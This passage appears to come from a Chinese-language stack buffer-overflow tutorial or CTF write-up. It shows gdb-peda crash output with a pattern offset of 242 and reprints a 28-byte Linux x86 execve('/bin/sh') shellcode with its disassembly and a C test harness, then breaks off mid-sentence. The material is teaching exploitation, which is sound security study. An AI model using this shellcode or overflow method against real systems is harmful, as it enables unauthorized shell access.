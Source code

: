 ```
0008| 0xbffff298 ("%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0012| 0xbffff29c ("cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0016| 0xbffff2a0 ("A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0020| 0xbffff2a4 ("%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0024| 0xbffff2a8 ("3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0028| 0xbffff2ac ("A%eA%4A%JA%fA%5A%KA%gA%6A%")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x25413025 in ?? ()
gdb-peda$ pattern offset $eip
625029157 found at offset: 242
```

利用一段[shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php)(使系统调用execve传递字符串"/bin/sh")

该shellcode详细如下：
```
/*
Title:	Linux x86 execve("/bin/sh") - 28 bytes
Author:	Jean Pascal Pereira <pereira@secbiz.de>
Web:	http://0xffe4.org


Disassembly of section .text:

08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80



*/

#include <stdio.h>

char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73"
                   "\x68\x68\x2f\x62\x69\x6e\x89"
                   "\xe3\x89\xc1\x89\xc2\xb0\x0b"
                   "\xcd\x80\x31\xc0\x40\xcd\x80";

int main()
{
  fprintf(stdout,"Lenght: %d\n",strlen(shellcode));
  (*(void  (*)()) shellcode)();
}
```
这里主要利用
	